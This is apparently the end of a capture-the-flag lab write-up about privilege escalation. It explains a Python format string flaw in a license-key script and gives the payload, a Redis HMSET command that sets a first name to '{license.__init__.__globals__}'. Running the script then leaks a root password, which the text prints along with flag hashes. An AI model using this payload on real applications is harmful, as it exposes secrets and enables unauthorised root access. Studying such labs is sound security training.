 ```python
#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")

```

What the code does is to create license key for a user

But the issue with the program lays here:

```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

Since we know it's first going to make a connection to the redis to get a username

```python
r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')
```

Then use python formatting to get the username and last name

```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

We now have a `Python Format String Vulnerability` since the formatting is going to be done over an input we control which is the `firstname` 

Here's the [resource](https://podalirius.net/en/articles/python-format-string-vulnerabilities/)

I created a new user from the redis
![[Pasted image 20230605113052.png]]
```r
HMSET pwned first-name "{license.__init__.__globals__}" last-name pwned username pwned
```


Now we can run the script as sudo and specify the username to be `pwned`
![[Pasted image 20230605113145.png]]

Looking at the result i saw this string `unCR4ckaBL3Pa$$w0rd`
![[Pasted image 20230605113315.png]]

Trying it as the root password works
![[Pasted image 20230605113400.png]]

```
User: 200e0ec7c40cffad136ed8671322c13a
Root: 6c41584ba0c44fdb0f9b20633d16db7c
```

What I have learnt:
- Source code analysis
- File Inclusion
- Misconfiguration in nginx
- Arbitrary file write
- Enumerating redis
- Python format string vulnerability


